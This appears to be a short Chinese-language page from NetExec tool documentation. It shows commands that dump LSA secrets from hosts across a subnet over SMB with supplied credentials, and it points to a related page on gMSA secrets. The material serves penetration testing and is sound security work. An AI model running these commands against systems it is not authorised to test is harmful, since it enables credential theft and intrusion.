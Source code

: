 # 导出 LSA

### 使用 secretsdump.py 中的方法导出 LSA 机密

{% hint style="danger" %}
需要在目标域控制器上拥有域管理员或本地管理员权限
{% endhint %}

```
#~ nxc smb 192.168.1.0/24 -u UserName -p 'PASSWORDHERE' --lsa
```

如果此命令失败，您也可以尝试旧方法（类似于 secretdump）

```
#~ nxc smb 192.168.1.0/24 -u UserName -p 'PASSWORDHERE' --lsa secdump
```

如果您找到一个以 _SC\_GMSA_{84A78B8C-56EE-465b-8496-FFB35A1B52A7} 开头的账户，您可以获取背后的账户：

{% content-ref url="../../ldap-protocol/extract-gmsa-secrets.md" %}
[extract-gmsa-secrets.md](../../ldap-protocol/extract-gmsa-secrets.md)
{% endcontent-ref %}
